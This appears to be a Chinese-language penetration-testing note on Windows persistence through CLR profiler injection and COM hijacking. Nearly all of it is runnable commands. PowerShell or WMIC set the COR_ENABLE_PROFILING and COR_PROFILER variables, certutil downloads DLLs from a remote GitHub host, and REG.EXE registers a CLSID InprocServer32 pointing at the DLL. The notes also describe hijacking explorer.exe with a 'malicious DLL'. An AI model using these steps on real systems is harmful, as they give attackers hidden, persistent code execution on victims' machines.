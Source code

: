 	劫持调用.net程序，开机启动
	https://github.com/3gstudent/CLR-Injection/blob/master/CLR-Injection_x64.bat
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/461.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/462.png)

	WMIC可替换为powershell
	New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null
	New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null

	wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
	wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll delete
	SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
	REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg_x64.dll" /F
	REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F 
	SET KEY=HKEY_CURRENT_USER\Software\Classes\WoW6432Node\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
	REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
	REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
	添加全局变量
	计算机\HKEY_CURRENT_USER\Environment
	COR_ENABLE_PROFILING=1
	COR_PROFILER={11111111-1111-1111-1111-111111111111}
	注册CLSID
	计算机\HKEY_CURRENT_USER\Software\Classes\CLSID添加项{11111111-1111-1111-1111-111111111111}和它的子项InprocServer32
	新建一个键ThreadingModel，键值为：Apartment，默认键值为dll路径
	劫持explorer.exe
	>SET COR_ENABLE_PROFILING=1
	>SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
	位置(新建)
	HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InprocServer32默认值为恶意DLL
	新建ThreadingModel值为Apartment